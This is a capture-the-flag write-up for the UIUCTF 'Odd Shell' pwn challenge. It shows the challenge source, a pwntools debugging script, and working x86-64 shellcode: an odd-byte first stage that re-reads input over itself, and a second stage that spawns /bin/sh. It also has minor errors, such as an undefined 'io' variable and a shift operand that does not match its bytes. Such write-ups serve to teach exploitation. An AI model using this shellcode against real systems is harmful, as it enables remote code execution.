



# Odd Shell

Categories: Pwn/Shellcode

Description:
> odd shell
>
>- 107 points
>
>"3D render of a merchant displaying non-euclidean objects"
>
>O ho! You found me! I have a display of oddities available to you!
>
> `nc odd-shell.chal.uiuc.tf 1337`
>
>author: Surg
>[chal](src/chal) [Dockerfile](src/Dockerfile) [nsjail.cfg](src/nsjail.cfg)

**Tags:** pwn, shellcode

## Takeaways

- When having shellcode, take a look at existing data in registers/stack
- Always use hardware breakpoints with self-modifying stuff

## Solution

Let's reverse engineer the source code of the challenge:

```C
#define BASE ((char*)0x123412340000)
int main(void) {
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
  setvbuf(stdin ,NULL,2,0);
  puts("Display your oddities:");

  if (mmap(BASE,0x1000,7,0x32,-1,0) != BASE) {
    puts("I can\'t allocate memory!");
    exit(-1);
  }
  long nread = read(0,BASE,0x800);
  if (*(char *)(BASE + nread - 1) == '\n') {
    *(char*)(BASE + nread - 1) = '\0';
    nread = nread - 1;
  }
  for(long i=0; i<nread; ++i) {
    if ((*(byte *)(BASE + i) & 1) == 0) { //byte must be odd
        puts("Invalid Character");
        exit(-1);
  } }

  (*(code *)BASE)(); //invoke shellcode
  return 0;
}
```

As we can see, the source code is simple. The program allocates 1 page at address `0x123412340000` as RWX, reads up to `0x800` bytes of shellcode, and then executes it. The only restriction is that each byte of the shellcode must be odd.

Let's insert a breakpoint at the instruction which jumps to the shellcode and examine the registers:

```python
from pwn import *
context.binary = elfexe = ELF('./chal')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([elfexe.path] + argv, gdbscript, elfexe.path, *a, *kw)
    else:
        target = process([elfexe.path] + argv, *a, **kw)
    return target
gdbscript = '''
# call <shellcode>
hbreak *main+0x15d
continue
'''.format(**locals())
io.recvline()
io.send(b'A\n')
io.interactive()
sys.exit(0)
```



This is interesting!

`$rax` and `$rdi` are 0, and `$rsi` and `$rdx` are the shellcode base address. There seems to be a nice way to overcome the odd byte limitation! With the current registers that we have, we can directly invoke the syscall `read(STDIN_FILENO, BASE, BASE)`. If we change `$rdx` to a more sensible value, then we will effectively overwrite our current shellcode and once we return from the syscall, the overwritten shellcode will continue. Here are our payloads and an illustration:


<table>
<tr>
<td>

```x86asm
/* All bytes here are odd */
31 db           XOR        EBX,EBX
83 c3 1f        ADD        EBX,0x1f
c1 e3 05        SHL        EBX,0x3
8b d3           MOV        EDX,EBX
0f 05           SYSCALL /*read(0, BASE, 0x3e0) */
<SHELLCODE OVERWRITTEN HERE>
```
Stage 1 Shell code

</td>
<td>

```x86asm
xor     rdx, rdx
push    rdx
mov     rbx, 0x0068732f6e69622f
push    rbx
mov     rdi, rsp
push    rdx
push    rdi
mov     rsi, rsp
mov     eax, 0x3b
syscall
```
Stage 2 Shellcode. Unrestricted. Invokes `execve("/bin/sh")`.

</td>
</tr>

</table>


<table>
<tr>
<td align="center">



`syscall` from Stage 1 is about to be executed

</td>
<td align="center">



Exactly stepped 1 instruction. The `read()` system call<br/>
overwrote the previous shelcode and its contents afterwards.

</td>
</tr>

</table>

So, if we run the [solution.py](solution.py), we can get a shell at the remote machine and dump the flag!

`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
